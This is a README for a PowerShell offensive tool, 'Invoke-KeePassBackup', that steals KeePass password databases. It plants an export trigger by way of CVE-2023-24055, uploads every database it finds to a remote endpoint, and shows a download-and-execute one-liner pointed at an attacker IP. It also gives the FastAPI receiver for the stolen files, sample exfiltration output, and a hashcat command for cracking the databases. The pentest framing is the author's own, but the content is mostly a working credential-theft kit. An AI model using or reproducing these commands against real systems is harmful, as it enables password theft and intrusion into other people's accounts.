 # Invoke-KeePassBackup
This PowerShell script has been crafted to streamline the process of transmitting KeePass databases to a designated endpoint. Conceived as an indispensable tool for your penetration testing toolkit, it aims to facilitate the exfiltration of target databases, paving the way for subsequent exploitation. 🕊️

The goal is to incorporate comprehensive KeePass tests, thereby eliminating manual, time-consuming commands.

## Features
- Automatically locates the KeePass executable and ascertains its version.
- Adds an export trigger to the KeePass configuration if KeePass version is below 2.53 (a.k.a [`CVE-2023-24055`](https://nvd.nist.gov/vuln/detail/CVE-2023-24055)).
- Backs up the current KeePass configuration before making changes.
- Scours all KeePass databases on the computer and uploads them to a given endpoint.
- Uses GZip compression for efficient backup size.
  
## Usage
Run the script using the following command:
```powershell
Invoke-KeePassBackup -url "https://backup.endpoint/u"
```

Knowing the real use-case, preferred running is from your own `HTTP(S)`/`WebDAV` server:
```powershell
$ip="192.168.45.218";powershell -nop -c "iex(irm http://$ip/Invoke-KeePassBackup.ps1); Invoke-KeePassBackup http://$ip/u"
```
It will output something like this:
```powershell
--------------- KeePass backup for noah@ITWR02
KeePass location: C:\Program Files\KeePass Password Safe 2\KeePass.exe
KeePass version: 2.51.1.0
--------------- Adding an export trigger on config file: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.xml
Backup of current config file done at: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.backup.xml
Export location: C:\Users\noah\AppData\Local\Temp\KeePassBackup.csv
Configuration complete. The trigger will go off as soon as it is opened.
--------------- Scanning for KeePass databases on ITWR02
Found KeePass database at: C:\Users\noah\Documents\Database.kdbx
Uploaded noah@ITWR02-20231012-Database.kdbx successfully!
```

The reception endpoint could resemble this FastAPI Python3 code snippet:
```python
@app.post("/u")
async def upload_file(x_file_name: str = Header(...), data: str = Body(...)):
    """
    Handle file upload via POST request.

    Args:
        x_file_name (str): The name of the file, from header.
        data (str): The body of the request containing the uploaded file's data.

    Raises:
        HTTPException: If the filename header is missing.
        HTTPException: If an error occurs during file upload.
    """

    if not x_file_name:
        raise HTTPException(
            status_code=status.HTTP_400_BAD_REQUEST,
            detail="Provide a filename with Header 'X-File-Name'",
        )

    try:
        # Decode the base64 data
        decoded_data = base64.b64decode(data.encode("utf-8"))

        # Check if the data is gzipped by looking at the first two bytes
        if decoded_data[:2] == b"\x1f\x8b":
            # If gzipped, decompress
            buffer = io.BytesIO(decoded_data)
            with gzip.GzipFile(fileobj=buffer, mode="rb") as f:
                processed_data = f.read()
        else:
            # If not gzipped, just use the decoded data as is
            processed_data = decoded_data

        # Save the file
        save_file_content(file_name=x_file_name, data=processed_data)

        return {"status": "success", "message": f"Received {x_file_name}."}

    except Exception as error:
        logger.error(f"Error while processing upload: {error}")
        raise HTTPException(status_code=500)
```

Once database received, to crack the KeePass database hash, first use `keepass2john` to extract the hash. Then, remove the prepended filename, which acts as a username, and utilize `hashcat` with the desired wordlist and rules.
```shell
hashcat $(keepass2john loot/noah@ITWR02-20231012-Database.kdbx | cut -d':' -f2-) -a 0 -O -D 1 -w 3 /usr/share/wordlists/rockyou.txt -m 13400 -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

